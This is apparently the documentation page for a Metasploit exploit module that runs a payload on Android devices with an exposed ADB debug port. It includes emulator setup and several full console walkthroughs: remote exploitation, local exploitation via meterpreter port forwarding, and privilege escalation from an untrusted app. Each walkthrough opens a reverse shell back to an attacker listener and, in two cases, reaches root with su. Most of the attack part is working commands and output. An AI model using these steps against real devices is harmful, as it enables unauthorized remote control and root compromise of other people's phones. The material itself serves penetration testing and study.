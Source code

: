 ## Vulnerable Application

Writes and spawns a native payload on an Android device that is listening
for Android Debug Bridge (ADB) debug messages.


## Installation Steps

To emulate Android devices, download and install [Android Studio](https://developer.android.com/studio/).

1. Start Android Studio and create a device using Device Manager.
1. Start an emulated device, either via Android Studio or using the `emulator` executable from Android SDK.

List available AVDs and start one with the emulator:

```
$ /path/to/Android/Sdk/emulator/emulator -list-avds
Galaxy_Nexus_API_29
$ /path/to/Android/Sdk/emulator/emulator -avd Galaxy_Nexus_API_29
```

For physical devices, refer to:

* https://developer.android.com/studio/command-line/adb


## Verification Steps

1. `msfconsole`
1. `use exploit/android/adb/adb_server_exec`
1. `set rhosts [host]`
1. `set rport [port]`
1. `set target [target]`
1. `run`
1. You should get a session


## Options


## Scenarios

### Remote Exploitation

```
msf6 > use exploit/android/adb/adb_server_exec 
[*] Using configured payload linux/armle/shell_reverse_tcp
msf6 exploit(android/adb/adb_server_exec) > set rhosts 192.168.200.135
rhosts => 192.168.200.135
msf6 exploit(android/adb/adb_server_exec) > set rport 5555
rport => 5555
msf6 exploit(android/adb/adb_server_exec) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   armle
   1   x86
   2   x64
   3   mipsle


msf6 exploit(android/adb/adb_server_exec) > set target 1
target => 1
msf6 exploit(android/adb/adb_server_exec) > set payload linux/x86/shell/reverse_tcp
payload => linux/x86/shell/reverse_tcp
msf6 exploit(android/adb/adb_server_exec) > run

[*] Started reverse TCP handler on 192.168.200.130:4444 
[*] 192.168.200.135:5555 - Connecting to device...
[+] 192.168.200.135:5555 - Connected to device:
device::ro.product.name=sdk_gphone_x86;ro.product.model=Android SDK built for x86;ro.product.device=generic_x86;features=fixed_push_symlink_timestamp,apex,fixed_push_mkdir,stat_v2,abb_exec,cmd,abb,shell_v2
[+] 192.168.200.135:5555 - Command executed, response:
 command=WRTE
arg0=0x99
arg1=0xb
data=

[*] 192.168.200.135:5555 - Command Stager progress - 100.00% done (1142/1142 bytes)
[*] Command shell session 1 opened (192.168.200.130:4444 -> 192.168.200.135:60382 ) at 2022-03-20 19:55:10 -0400

id
uid=2000(shell) gid=2000(shell) groups=2000(shell),1004(input)
```


### Emulated Device Local Exploitation

When running Android devices in an emulator with Android Studio, the ADB
service is exposed only on the local network interface. However, the
service is accessible to all local users and may allow one user to
compromise another user's emulated device if authentication is disabled.

Setting up a port forward to the ADB service allows this module to exploit
ADB over an existing session:

```
meterpreter > portfwd add -l 1234 -p 5555 -r 127.0.0.1
[*] Local TCP relay created: :1234 <-> 127.0.0.1:5555
meterpreter > 
Background session 1? [y/N]  
msf6 > use exploit/android/adb/adb_server_exec 
[*] Using configured payload linux/armle/shell_reverse_tcp
msf6 exploit(android/adb/adb_server_exec) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf6 exploit(android/adb/adb_server_exec) > set rport 1234
rport => 1234
msf6 exploit(android/adb/adb_server_exec) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   armle
   1   x86
   2   x64
   3   mipsle


msf6 exploit(android/adb/adb_server_exec) > set target 1
target => 1
msf6 exploit(android/adb/adb_server_exec) > set payload linux/x86/shell/reverse_tcp
payload => linux/x86/shell/reverse_tcp
msf6 exploit(android/adb/adb_server_exec) > set lhost 192.168.200.130
lhost => 192.168.200.130
```

Successful exploitation results in `adb` user privileges with `shell` SELinux context,
leading to `root` privileges on the device by using `su`:

```
msf6 exploit(android/adb/adb_server_exec) > run

[*] Started reverse TCP handler on 192.168.200.130:4444 
[*] 127.0.0.1:1234 - Connecting to device...
[+] 127.0.0.1:1234 - Connected to device:
device::ro.product.name=sdk_gphone_x86;ro.product.model=Android SDK built for x86;ro.product.device=generic_x86;features=fixed_push_symlink_timestamp,apex,fixed_push_mkdir,stat_v2,abb_exec,cmd,abb,shell_v2
[*] Sending stage (36 bytes) to 192.168.200.135
[+] 127.0.0.1:1234 - Command executed, response:
 command=WRTE
arg0=0x95
arg1=0xb
data=

[*] 127.0.0.1:1234 - Command Stager progress - 100.00% done (1142/1142 bytes)
[*] Command shell session 2 opened (192.168.200.130:4444 -> 192.168.200.135:60332 ) at 2022-03-20 18:30:56 -0400

id
uid=2000(shell) gid=2000(shell) groups=2000(shell),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats),3009(readproc),3011(uhid) context=u:r:shell:s0
su
id
uid=0(root) gid=0(root) groups=0(root),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats),3009(readproc),3011(uhid) context=u:r:su:s0
```


### Emulated Device Privilege Escalation

When running Android devices in an emulator with Android Studio, it is possible
for apps to communicate with the ADB service on the host's local network interface.
This allows a malicious app to request a shell on the device via ADB, leading to
elevation of privileges by creating a new session with `shell` privileges.

Untrusted Android apps have `untrusted_app` SELinux context, do not have `shell`
privileges and cannot execute `su`:

```
meterpreter > shell
Process 1 created.
Channel 1 created.
id
uid=10149(u0_a149) gid=10149(u0_a149) groups=10149(u0_a149),3003(inet),9997(everybody),20149(u0_a149_cache),50149(all_a149) context=u:r:untrusted_app_25:s0:c512,c768
su
/system/bin/sh: <stdin>[2]: su: inaccessible or not found
exit
```

However, apps can communicate with the ADB service associated with the emulated
device (port `5555` in this example) on the host `10.0.2.2`. Setting up a port
forward to the ADB service allows this module to exploit ADB over the session:

```
meterpreter > portfwd add -l 1234 -p 5555 -r 10.0.2.2
[*] Local TCP relay created: :1234 <-> 10.0.2.2:5555
meterpreter > 
Background session 1? [y/N]  
msf6 > use exploit/android/adb/adb_server_exec
[*] Using configured payload linux/armle/shell_reverse_tcp
msf6 exploit(android/adb/adb_server_exec) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf6 exploit(android/adb/adb_server_exec) > set rport 1234
rport => 1234
msf6 exploit(android/adb/adb_server_exec) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   armle
   1   x86
   2   x64
   3   mipsle


msf6 exploit(android/adb/adb_server_exec) > set target 1
target => 1
msf6 exploit(android/adb/adb_server_exec) > set payload linux/x86/shell/reverse_tcp
payload => linux/x86/shell/reverse_tcp
msf6 exploit(android/adb/adb_server_exec) > set lhost 192.168.200.130
lhost => 192.168.200.130
```

Successful exploitation results in `adb` user privileges with `shell` SELinux context,
leading to `root` privileges on the device by using `su`:

```
msf6 exploit(android/adb/adb_server_exec) > run

[*] Started reverse TCP handler on 192.168.200.130:4444 
[*] 127.0.0.1:1234 - Connecting to device...
[+] 127.0.0.1:1234 - Connected to device:
device::ro.product.name=sdk_gphone_x86;ro.product.model=Android SDK built for x86;ro.product.device=generic_x86;features=fixed_push_symlink_timestamp,apex,fixed_push_mkdir,stat_v2,abb_exec,cmd,abb,shell_v2
[*] Sending stage (36 bytes) to 192.168.200.135
[+] 127.0.0.1:1234 - Command executed, response:
 command=WRTE
arg0=0xb
arg1=0xb
data=

[*] 127.0.0.1:1234 - Command Stager progress - 100.00% done (1142/1142 bytes)
[*] Command shell session 2 opened (192.168.200.130:4444 -> 192.168.200.135:59846 ) at 2022-03-20 02:57:52 -0400

id
uid=2000(shell) gid=2000(shell) groups=2000(shell),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats),3009(readproc),3011(uhid) context=u:r:shell:s0
su
id
uid=0(root) gid=0(root) groups=0(root),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats),3009(readproc),3011(uhid) context=u:r:su:s0
```
